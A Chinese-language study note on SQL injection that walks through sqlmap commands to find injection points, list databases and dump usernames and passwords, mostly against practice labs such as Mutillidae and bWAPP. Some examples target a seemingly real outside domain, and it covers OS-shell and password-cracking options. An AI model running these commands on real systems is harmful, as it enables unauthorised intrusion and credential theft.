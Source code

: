 # SQL

## SQL语法

+ database() 获取数据库名字
+ user()、current_user 获取当前用户名
+ @@version() 貌似不好使
+ 
## SQL注入



## SQL盲注

## sqlmap

SQLMap 是个命令行工具，包含在 Kali 中，可以帮我们自动化检测和利用 SQL 注入，它带有多种技巧，并支持多种数据库。

### GET注入

**检查注入点**

`sqlmap -u "192.168.2.167/mutillidae/index.php?page=user-info.php&username=admin&password=admin&user-info-php-submit-button=View+Account+Details"`

**暴所有数据库的信息**

`sqlmap -u "192.168.2.167/mutillidae/index.php?page=user-info.php&username=admin&password=admin&user-info-php-submit-button=View+Account+Details" --dbs`

**爆当前数据库的信息**

`sqlmap -u "192.168.2.167/mutillidae/index.php?page=user-info.php&username=admin&password=admin&user-info-php-submit-button=View+Account+Details" --current-db`

**指定库名列出所有表**

`sqlmap -u "192.168.2.167/mutillidae/index.php?page=user-info.php&username=admin&password=admin&user-info-php-submit-button=View+Account+Details" -D nowasp --tables `

**指定库名表名列出所有字段**

`sqlmap -u "192.168.2.167/mutillidae/index.php?page=user-info.php&username=admin&password=admin&user-info-php-submit-button=View+Account+Details" -D nowasp -T accounts --columns`

**指定库名表名下载出指定字段内容**

`sqlmap -u "192.168.2.167/mutillidae/index.php?page=user-info.php&username=admin&password=admin&user-info-php-submit-button=View+Account+Details" -D nowasp -T accounts -C username password mysignature -dump`

### POST注入

#### 自动填写表单

**判断是否有post注入**

`Csqlmap -u http://vip.fj0730.cn/login.asp --forms`

**查找数据库**

`sqlmap -u http://vip.fj0730.cn/login.asp --forms --dbs`

**查找当前数据库**

`sqlmap -u http://vip.fj0730.cn/login.asp --forms --current-db`

查找表名、字段名、爆出数据与GET注入一致

#### sqlmap结合burp

1. 抓包
2. 全选抓的数据包（RAW页面的内容），右键 | 保存到1.txt文件
3. `sqlmap -r '/home/1.txt'`
4. 查找当前数据库 `sqlmap -r '/home/1.txt' --current-db`
5. 剩下的操作与之前的一致

####  指定表单注入

`sqlmap -u http://vip.fj0730.cn/login.asp --data "userid=aaa&passwd=bbbb"`

`sqlmap -u http://vip.fj0730.cn/login.asp --data "userid=aaa&passwd=bbbb" --current-db`

`--data` 用于POST方法，发送到服务器的POST数据

### sqlmap选项

`--batch` 永远不要求用户输入

`--sqlmap-shell` 提示输入的交互式sqlmap shell

`--sql-shell` 提供SQL shell，可以执行SQL查询

`--os-shell` 提供服务器系统cmd的执行权限，成功的条件较为苛刻，暂未研究明白，参见[获取os-shell][https://zhuanlan.zhihu.com/p/58007573]。

`--is-dba` 判断当前用户是否拥有root权限

`--dbms mysql` 指定数据库类型 

`--cookie=""` 指定cookie，用于需要身份认证的情形。

在WebGoat | Injection | blind numberic sql injection中，sqlmap可以完美地解决http情形下的注入问题，对于https情形，sqlmap需要指定代理

`sqlmap -r /root/Documents/KaliCookbook/Ch7_Test/bWAPP_SQL_Injection_Post_search.txt -p title --force-ssl --proxy "http://127.0.0.1:8080"`

`--users --passwords` 查询用户名和密码，sqlmap提供字典爆破，可以爆破口令。